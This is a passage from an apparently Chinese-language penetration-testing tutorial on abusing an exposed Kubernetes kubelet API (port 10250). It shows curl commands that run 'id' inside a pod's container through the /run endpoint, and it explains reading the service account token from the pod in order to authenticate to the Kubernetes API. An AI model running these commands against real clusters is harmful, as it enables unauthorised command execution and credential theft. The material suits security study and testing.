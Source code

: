 [![](assets/1701678402-5e2661fd60e69cc7430e6826bf1bd28e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130190919-e8a54c62-8f70-1.png)  
获取了三个字段后执行命令

```plain
-执行模版：
curl -XPOST -k "https://192.168.108.102:10250/run/<namespace>/<pod>/<container>" -d "cmd=id"

curl -XPOST -k "https://192.168.108.102:10250/run/default/nginx-6867cdf567-9sv8d/nginx" -d "cmd=id"
```

[![](assets/1701678402-401041fd80b94b208f05d12afa447bf2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130190919-e8bd0a96-8f70-1.png)  
接下里的操作可以有很多，我们介绍下获得 token  
在对应的容器里执行命令，获取 Token，该 token 可用于 Kubernetes API 认证，Kubernetes 默认使用 RBAC 鉴权（当使用 kubectl 命令时其实是底层通过证书认证的方式调用 Kubernetes API）  
token 默认保存在 pod 里的/var/run/secrets/kubernetes.io/serviceaccount/token
